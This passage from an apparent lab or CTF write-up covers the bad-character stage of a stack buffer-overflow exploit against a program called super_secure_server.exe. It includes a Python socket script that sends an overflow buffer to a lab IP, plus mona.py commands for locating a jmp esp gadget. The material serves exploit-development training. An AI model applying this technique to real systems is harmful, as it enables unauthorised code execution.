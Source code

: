   * step 2 - checking for bad characters 
  * create bad chracters by python scrript
  * `for i in range(0,256):`
	     * `print('\\x%02x' % i,end='')`
  * The \x00 byte is a null terminator for strings ,it is always the first  bad character
  * remove from bad chr
  * send payload again
  
  		  {% highlight text %}
		  import socket
		  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		  badchars = (
		  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
		  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
		  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
		  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
		  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
		  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
		  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
		  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
		  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
		  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
		  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
		  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
		  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
		  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
		  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
		  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
		 payload='A'*998
		 buffer="SECRET"+payload+'BBBB'+badchars+'C'*(2000-998-4-6-len(badchars))
		 s.connect(("192.168.128.129",13337))
		 print s.recv(1024)
		 s.send(buffer)
		 s.close()
		 {% endhighlight %}
   
 * select ESP >follow in dump > not found bad character
 
  <img src="/img/crashed/followindump.PNG" alt="Getting-gz" width="800" height="440">

  * used mona.py script > drop mona.py into the 'PyCommands' folder (inside the Immunity Debugger application folder).
  * [`https://github.com/corelan/mona`](https://github.com/corelan/mona)
  * `!mona modules`
  * I found super_secure_server.exe and essfunc.ddl
  * I use essfunc.dll
  
<img src="/img/crashed/modules.PNG" alt="Getting-gz" width="800" height="200">

* `!mona jmp -r esp -m "essfunc.dll"`  to locate jmp esp

<img src="/img/crashed/esp.PNG" alt="Getting-gz" width="800" height="440">
